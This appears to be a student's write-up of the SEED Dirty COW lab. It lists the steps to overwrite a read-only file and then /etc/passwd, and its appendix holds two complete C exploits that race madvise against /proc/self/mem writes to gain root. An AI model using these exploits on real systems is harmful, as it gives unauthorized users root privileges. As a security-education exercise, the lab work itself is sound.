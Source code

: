 # Dirty-COW-Attack-Lab
# Task 1: Modify a Dummy Read-Only File
Creating the dummy file “/zzz” using touch command. Changing the permission of file to “rw” for owner and “r” for users. 
- Using editor gedit to add random content to the /zzz file. 
- Viewing the file /zzz content using cat command.
- Checking the permission of file /zzz using the ls-l command. 
- Trying the add normal content to the file with the normal user. (without root permissions), but we wont be able to add because file only has the read permission for normal user.
- Creating the file cow_attack.c and adding the content downloaded from the seed lab webisite and pasting content in the file cow_attack.c 
- Compiling the file cow_attack.c using the gcc compiler. After that a.out file is created. 
- Executing the file. After waiting for couple of seconds we stop the execution loop. 
- Viewing the content of the file /zzz using the cat command. Its clearly visible the content of the file has been modified which means normal user having the read only access to the file, still able to write to the file using the dirty cow attack. 
Attack is successful. 

# Task 2: Modify the password file to gain the root privilege 
-Creating the new user named “Meet”
Also viewing the information in the /etc/passwd file using cat command.
- Creating the new attack file “attack_cow.c” in Desktop.
- Modifying the content of the file.
- Now, compiling the attack_cow.c file using gcc compiler. Executing and after waiting couple of seconds, we stop the loop. 
- Checking the content of the file, can see we are able to change the content of this file and able to make “meet” as the root. 
- Lastly, double checking the UID using the id command, which is also changed to the root. 
Dirty cow attack successful. 


# Lab Appendix 
1.	Code for cow_attack.c file 
#include <sys/mman.h>
#include <fcntl.h>
#include <pthread.h>
#include <sys/stat.h>
#include <string.h>

void *map;
void *writeThread(void *arg);
void *madviseThread(void *arg);

int main(int argc, char *argv[])
{
  pthread_t pth1,pth2;
  struct stat st;
  int file_size;

  // Open the target file in the read-only mode.
  int f=open("/zzz", O_RDONLY);

  // Map the file to COW memory using MAP_PRIVATE.
  fstat(f, &st);
  file_size = st.st_size;
  map=mmap(NULL, file_size, PROT_READ, MAP_PRIVATE, f, 0);

  // Find the position of the target area
  char *position = strstr(map, "222222");                        

  // We have to do the attack using two threads.
  pthread_create(&pth1, NULL, madviseThread, (void  *)file_size); 
  pthread_create(&pth2, NULL, writeThread, position);             

  // Wait for the threads to finish.
  pthread_join(pth1, NULL);
  pthread_join(pth2, NULL);
  return 0;
}

void *writeThread(void *arg)
{
  char *content= "******";
  off_t offset = (off_t) arg;

  int f=open("/proc/self/mem", O_RDWR);
  while(1) {
    // Move the file pointer to the corresponding position.
    lseek(f, offset, SEEK_SET);
    // Write to the memory.
    write(f, content, strlen(content));
  }
}

void *madviseThread(void *arg)
{
  int file_size = (int) arg;
  while(1){
      madvise(map, file_size, MADV_DONTNEED);
  }
}

2.	Code for attack_cow.c file
3.	#include <sys/mman.h>
4.	#include <fcntl.h>
5.	#include <pthread.h>
6.	#include <sys/stat.h>
7.	#include <string.h>
8.	
9.	void *map;
10.	void *writeThread(void *arg);
11.	void *madviseThread(void *arg);
12.	
13.	int main(int argc, char *argv[])
14.	{
15.	  pthread_t pth1,pth2;
16.	  struct stat st;
17.	  int file_size;
18.	
19.	  // Open the target file in the read-only mode.
20.	  int f=open("/etc/passwd", O_RDONLY);
21.	
22.	  // Map the file to COW memory using MAP_PRIVATE.
23.	  fstat(f, &st);
24.	  file_size = st.st_size;
25.	  map=mmap(NULL, file_size, PROT_READ, MAP_PRIVATE, f, 0);
26.	
27.	  // Find the position of the target area
28.	  char *position = strstr(map, "meet:x:1001");                        
29.	
30.	  // We have to do the attack using two threads.
31.	  pthread_create(&pth1, NULL, madviseThread, (void  *)file_size); 
32.	  pthread_create(&pth2, NULL, writeThread, position);             
33.	
34.	  // Wait for the threads to finish.
35.	  pthread_join(pth1, NULL);
36.	  pthread_join(pth2, NULL);
37.	  return 0;
38.	}
39.	
40.	void *writeThread(void *arg)
41.	{
42.	  char *content= "meet:x:0000";
43.	  off_t offset = (off_t) arg;
44.	
45.	  int f=open("/proc/self/mem", O_RDWR);
46.	  while(1) {
47.	    // Move the file pointer to the corresponding position.
48.	    lseek(f, offset, SEEK_SET);
49.	    // Write to the memory.
50.	    write(f, content, strlen(content));
51.	  }
52.	}
53.	
54.	void *madviseThread(void *arg)
55.	{
56.	  int file_size = (int) arg;
57.	  while(1){
58.	      madvise(map, file_size, MADV_DONTNEED);
59.	  }
60.	}
